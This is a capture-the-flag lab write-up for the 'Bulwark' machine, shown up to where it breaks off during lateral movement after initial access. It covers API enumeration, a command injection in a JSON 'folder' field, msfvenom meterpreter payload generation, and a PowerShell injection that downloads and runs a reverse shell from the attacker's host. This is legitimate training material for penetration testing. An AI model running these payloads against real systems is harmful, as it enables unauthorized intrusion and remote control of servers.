
<font size="10">Bulwark</font>

​		14<sup>th</sup> May 2024 / Document No DYY.100.XX

​		Prepared By: xRogue

​		Machine Author: xRogue

​		Difficulty: <font color=red>Hard</font>

​		Classification: Official	

# Synopsis

Bulwark is a hard machine, focusing mostly on Active Directory security misconfigurations, specifically on the Kerberos Authentication Protocol. It features a website which hosts two API versions, one of which is unauthenticated. Through the unauthenticated API, command execution through a POST request grants local access to the web server. From there, multiple Kerberos misconfigurations lead to the impersonation of a user towards another system, FS02, through Constrained Delegation. Credential dumping on FS02 provide access to group administration functionality through another domain account, thus removing Domain Administrators from the Protected Users group. Performing Constrained Delegation again using the Domain Administrator's account, grant access to administrative functions towards the Domain Controller.

## Skills Required

- API Parameter Fuzzing
- Basic Command Injection
- Abusing Kerberos Constrained Delegation
- Windows Credentials Dumping
- Active Directory Enumeration

## Skills Learned

- Kerberos Constrained Delegation
- Kerberos ticket modification
- Active Directory Enumeration


# Enumeration

Starting off, we perform an NMAP scan towards the given machine IP.

```bash
└─$ ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.232 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
                                                                                                          
└─$ nmap -p$ports -sC -sV 10.129.95.232 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 01:02 MST
Nmap scan report for bulwarkadm.htb (10.129.95.232)
Host is up (0.067s latency).

PORT     STATE  SERVICE VERSION
80/tcp   closed http
8080/tcp open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Bulwark Admin
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds
```

We then add `bulwarkadm.htb` on our `/etc/hosts` file and proceed to visit the website.



We are presented with a Login page. Fuzzing the website in hopes of identifying further endpoints is fruitful, but these endpoints still require authentication in order to access them.

```
└─$ dirsearch -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://bulwarkadm.htb:8080/' -t 256 -e php -f 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 256 | Wordlist size: 622884

Output File: /var/tmp/reports/http_bulwarkadm.htb_8080/__24-05-14_01-09-13.txt

Target: http://bulwarkadm.htb:8080/

[01:09:13] Starting: 
[01:09:14] 301 -  154B  - /img  ->  http://bulwarkadm.htb:8080/img/         
[01:09:14] 403 -    1KB - /img/                                             
[01:09:16] 403 -    1KB - /css/                                             
[01:09:16] 301 -  154B  - /css  ->  http://bulwarkadm.htb:8080/css/         
[01:09:17] 403 -    1KB - /js/                                              
[01:09:17] 301 -  153B  - /js  ->  http://bulwarkadm.htb:8080/js/
[01:09:17] 301 -  154B  - /api  ->  http://bulwarkadm.htb:8080/api/         
[01:09:17] 403 -    1KB - /api/                                             
[01:09:19] 200 -    0B  - /config.php                                       
[01:09:24] 301 -  156B  - /fonts  ->  http://bulwarkadm.htb:8080/fonts/     
[01:09:24] 403 -    1KB - /fonts/                                           
[01:09:24] 302 -    0B  - /dashboard.php  ->  /login.php                    
[01:09:35] 302 -    0B  - /agents.php  ->  /login.php                       
[01:09:52] 302 -    0B  - /inbox.php  ->  /login.php                        
[01:09:58] 302 -    0B  - /compose.php  ->  /login.php
.
.
.
```

If we attempt a login and intercept the request, we can see that the application uses an API, which has a version.



Moving the request to the Repeater and changing the API version from v1 to v2, provides a reply that indicates the development of a new version of this API.



Since we cannot access the website through its GUI, we can proceed to enumerate the APIs that the application offers, in hopes of finding an endpoint we could exploit.

```
└─$ dirsearch -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://bulwarkadm.htb:8080/api/v1/' -t 256 -e php -f

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 256 | Wordlist size: 622884

Output File: /var/tmp/reports/http_bulwarkadm.htb_8080/_api_v1__24-05-14_01-17-11.txt

Target: http://bulwarkadm.htb:8080/

[01:17:11] Starting: api/v1/
[01:17:12] 301 -  163B  - /api/v1/files  ->  http://bulwarkadm.htb:8080/api/v1/files/
[01:17:12] 301 -  162B  - /api/v1/mail  ->  http://bulwarkadm.htb:8080/api/v1/mail/
[01:17:20] 200 -    0B  - /api/v1/auth.php                                  
[01:17:32] 301 -  164B  - /api/v1/agents  ->  http://bulwarkadm.htb:8080/api/v1/agents/
[01:17:35] 301 -  164B  - /api/v1/notify  ->  http://bulwarkadm.htb:8080/api/v1/notify/
```

We can then proceed to further enumerate each found endpoint for it's own subdirectories. For example, under `api/v1/notify`, we can find the `activities.php` endpoint. An intresting observation can be made at this point:

If we try to access `/api/v1/notify/activities.php` (as an example - you can get the same result with many other endpoints) we are greeted with an "unauthorized" message.



If we try to access the same endpoint but using the v2 of the api, we are presented with a different response.



Since the latter response is much more fruitful, we can assume that the v2 of the API which is under development, has not been restricted behind authentication yet. We can use that to our advantage and see if we can leverage the v2 of the API to gain access to function we are unauthorized to.

# Foothold

Enumerating the `/files` endpoint, we can find the following directories.

```
└─$ dirsearch -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://bulwarkadm.htb:8080/api/v1/files' -t 256 -e php -f

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 256 | Wordlist size: 622884

Output File: /var/tmp/reports/http_bulwarkadm.htb_8080/_api_v1_files_24-05-14_01-22-43.txt

Target: http://bulwarkadm.htb:8080/

[01:22:43] Starting: api/v1/files/
[01:22:49] 200 -   60B  - /api/v1/files/backup.php                          
[01:22:51] 200 -   60B  - /api/v1/files/classified.php                      
[01:23:08] 200 -   60B  - /api/v1/files/fetch.php 
```

Using the v2 of the API we perform a request to the identified endpoints.





The `fetch.php` endpoint provided us with what looks like a file structure of different PDF files. The other two requests where unsuccesful, indicating that the `GET` method is invalid for those endpoints.



Sending a `POST` Request towards `/api/v2/files/backup.php` provides us with an error, "No folder specified.". Since the application responds in `JSON` format, we will attempt to send a `JSON` object with a `folder` key.



The error message now indicates that the key we used is correct, but we need a valid folder name. If we recount what we saw earlier from the `fetch.php` endpoint, it looks like multiple PDF files are stored in different folders. We could attempt to send one of the folder names we saw in this response, towards the `backup.php` endpoint.



The response looks empty with just a `success` key. At first sight, nothing intresting is going on here. But given the endpoint name and the data we send through the `JSON` object, we can assume with high certainty that this is some kind of backup operation. Since backup operations usually involve some kind of command interaction, we can attempt to identify possible vulnerabilities in the backup functionality.

Fuzzing through multiple command injection payloads, an intresting observation is made when we send the payload `CLD_2022 & whoami`.



We are presented with what it looks like the local path to the `CLD_2022` folder. If we add another command, for example `& dir` to the payload:



We are also presented with the result of the `whoami` command, which indicates that the application is running under the user `BULWARK\m.benson`. The "delay" between the input and output of the commands may be caused by some kind of caching issue but this is irrelevant. What we know now, is that we can execute commands through the `folder` key of the `JSON` object.

We can use this to our advantage to gain a reverse shell towards the web server. For this playthrough, i will be using a `meterpreter` shell. First, we generate the executable through `msfvenom`.

```
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.81 LPORT=4445 -f exe > shell.exe
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

Then, we initiate the meterpreter listener through `msfconsole`.

```
└─$ msfconsole
Metasploit tip: Set the current module's RHOSTS with database values using 
hosts -R or services -R
                                                  
 ______________________________________
/ it looks like you're trying to run a \
\ module                               /
 --------------------------------------
 \
  \
     __
    /  \
    |  |
    @  @
    |  |
    || |/
    || ||
    |\_/|
    \___/


       =[ metasploit v6.3.41-dev                          ]
+ -- --=[ 2371 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.81
LHOST => 10.10.14.81
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.81:4445
```

Finally, we leverage our command execution capabilities to upload and execute our executable on the web server.

```
{
	"folder":"CLD_2022 & powershell Invoke-WebRequest -Uri 'http://10.10.14.81:8081/shell.exe' -OutFile C:\\Windows\\TEMP\\shell.exe & C:\\Windows\\TEMP\\shell.exe"
}
```

```
[*] Sending stage (200774 bytes) to 10.129.95.232
[*] Meterpreter session 1 opened (10.10.14.81:4445 -> 10.129.95.232:49797) at 2024-05-14 01:57:00 -0700

meterpreter > shell
Process 2176 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5696]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\BulwarkADM\api\v2\files>whoami
whoami
bulwark\m.benson

C:\inetpub\BulwarkADM\api\v2\files>

```

# Lateral Movement - FS02 as a.garton

The initial observation we can make for the user we got the reverse shell with, is that it is already a `Local Administrator`.

```
C:\inetpub\BulwarkADM\api\v2\files>whoami /all                                                                                                                                           
whoami /all                                                                                                                                                                              
                                                                                                                                                                                         
USER INFORMATION                                                                                                                                                                         
----------------                                                                                                                                                                         
                                                                                                                                                                                         
User Name        SID                                                                                                                                                                     
================ ==============================================                                                                                                                          
bulwark\m.benson S-1-5-21-4088429403-1159899800-2753317549-1601                                                                                                                          
                                                                                                                                                                                         
                                                                                                                                                                                         
GROUP INFORMATION                                                                                                                                                                        
-----------------                                                                                                                                                                        
                                                                                                                                                                                         
Group Name                                 Type             SID                                                             Attributes                                                   
                                                                                                                                                                                         
========================================== ================ =============================================================== =============================================================
==                                                                                                                                                                                       
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
BUILTIN\Administrators                     Alias            S-1-5-32-544                                                    Mandatory group, Enabled by default, Enabled group, Group own
er                                                                                                                                                                                       
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                                         Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568                                                    Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
IIS APPPOOL\BulwarkADM                     Well-known group S-1-5-82-3894477114-2319716889-4228524896-2260900632-1071072310 Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group           
                                                                                                                                                                                         
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                    
   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
